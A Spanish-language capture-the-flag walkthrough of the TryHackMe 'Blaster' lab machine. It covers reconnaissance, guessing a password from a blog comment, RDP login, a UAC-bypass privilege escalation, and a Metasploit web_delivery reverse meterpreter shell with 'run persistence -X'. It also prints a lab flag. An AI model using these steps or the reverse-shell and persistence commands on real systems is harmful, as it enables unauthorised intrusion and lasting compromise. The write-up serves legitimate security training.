# Blaster

Esta máquina es la última de la trilogía: Blue, Ice & Blaster, lo que significa que está hecha por la misma persona y que nos guían bastante por todo el desarrollo de esta.

# Análisis

Empecemos con un escaneo de puertos, parece que la máquina está bloqueando los *ping*, probamos con el parámetro `-Pn`:


Encontramos un servio web en el puerto 80(Microsoft IIS httpd 10.0), y lo que parece una terminal remota(?) en el puertp 3389.

Empecemos por el más fácil, el servicio web:


fuzzeamos la página:

> Va para largo

Encontramos 2 directorios, que son los mismos: /retro
En este directorio encontramos varias entradas de una misma persona **Wade**, un posible usuario del sistema.
Además de un comentario *curioso*:


Dice que van a hacer una peli de su libro favorito, que se llama igual que el prota de esa peli, y que se sigue equivocando al escribir el avatar al logearse. Podemos deducir, que el nombre del avatar es la contraseña de **Wade**:


Vamos a intentar iniciar sesión con estas credenciales a traves de la terminal remota RDP:



Ya estariamos dentro del servidor, y encontramos la primera *flag*, **user.txt**.
> THM{HACK_PLAYER_ONE}

Vale, ahora que somos Wade, toca escalar privilegios.
Encontramos este historial de busquedas en el navegador:




Esta escalada de privilegios es un poco absurda, por lo fácil que es.

1. Tenemos que ejecutar un archivo que esté protegido por contraseña(administrador):


2. Seguimos los siguientes pasos:




3. Esto nos abrirá el internet explorer, pero nunca cargará. En este momento tenemos que guardar la página con `Ctrl+S`

4. Nos saldrá un error, lo quitamos y en la barra del explorador ponemos ``cmd``:


5. Esto nos abrirá una terminal con permisos de administrador:




Segunda flag.

Ya habríamos terminado, pero también podemos hacer la máquina usando metaxploit. Iniciamos metasploit y usamos el siguiente ``exploit``: 
exploit/multi/script/web_delivery

Primero, tenemos que cambiar el target. De primeras está en python, lo tenemos que cambiar PSH, que tiene el id 2:


Ponemos el lhost correcto:
```bash
set lhost tun0
```

El puerto lo podemos dejar por defecto, y THM nos dice que usemos el payload:
``set payload windows/meterpreter/reverse_http``

Iniciamos el exploit con ``run``, y esto nos devuelve un comando de powershell, que tenemos que poner en el servidor, o sea, todo esto sirve para escalar privilegios, no para entrar en la máquina.



Se crea una nueva sesión, y si ponemos:
``sessions 1``



Por último, para ganar persistencia y que el meterpreter inicie cada vez que inicie la máquina, tenemos que poner el siguiente comando:
``run persistence -X``
